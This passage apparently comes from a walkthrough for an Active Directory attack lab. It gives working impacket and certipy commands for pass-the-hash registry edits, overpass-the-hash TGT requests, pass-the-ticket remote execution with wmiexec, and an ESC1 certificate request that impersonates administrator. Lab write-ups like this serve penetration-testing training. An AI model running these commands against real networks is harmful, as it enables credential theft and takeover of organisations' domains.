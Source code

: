 - Once finished delete the created registry key
```
impacket-reg NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
```
![screenshot](pics/reg_remove.png)


## TGT

### Over Pass the Hash (NT -> TGT -> authentication)

- Get a kerberos ticket from the nt hash
```
impacket-getTGT -hashes ':cba36eccfd9d949c73bc73715364aff5' north.sevenkingdoms.local/catelyn.stark
```

### Pass the ticket

- Now we got the TGT of catelyn we will use it
```
export KRB5CCNAME=./catelyn.stark.ccache
impacket-wmiexec -k -no-pass north.sevenkingdoms.local/catelyn.stark@winterfell
```
![screenshot](pics/wmiexec_tgt.png)

- You could also use the tickets dumped with lsassy using impacket ticketConverter:
```
ticketConverter kirbi_ticket.kirbi ccache_ticket.ccache
```

## Certificate

### Pass The Certificate (Cert -> NTLM or TGT)

- Back in our ESC1 case we request a certificate
```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
```
![screenshot](pics/certipy-ad_ESC1.png)
